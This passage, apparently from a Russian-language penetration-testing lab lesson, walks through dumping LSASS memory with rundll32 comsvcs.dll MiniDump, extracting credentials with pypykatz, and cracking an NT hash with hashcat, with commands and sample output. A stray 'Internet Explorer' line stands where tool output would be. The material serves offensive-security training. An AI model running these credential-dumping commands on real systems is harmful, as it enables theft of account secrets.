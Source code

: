 #### Поиск PID LSASS в PowerShell

Из PowerShell мы можем ввести команду `Get-Process lsass`и увидеть идентификатор процесса в `Id` поле.
```powershell-session
PS C:\Windows\system32> Get-Process lsass

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1260      21     4948      15396       2.56    672   0 lsass
```
Получив PID, назначенный процессу LSASS, мы можем создать файл дампа.

#### Создание lsass.dmp с помощью PowerShell

В сеансе PowerShell с повышенными правами мы можем выполнить следующую команду для создания файла дампа:
```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```

`Примечание. Мы можем использовать метод передачи файлов, описанный в разделе «Атака на SAM», чтобы получить файл lsass.dmp от цели к нашему атакующему хосту.`

## Использование Pypykatz для извлечения учетных данных
```shell-session
lizergindoma@htb[/htb]$ pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```
`Internet Explorer`

#### Взлом хэша NT с помощью Hashcat
```shell-session
lizergindoma@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

64f12cddaa88057e06a81b54e73b949b:Password1
```

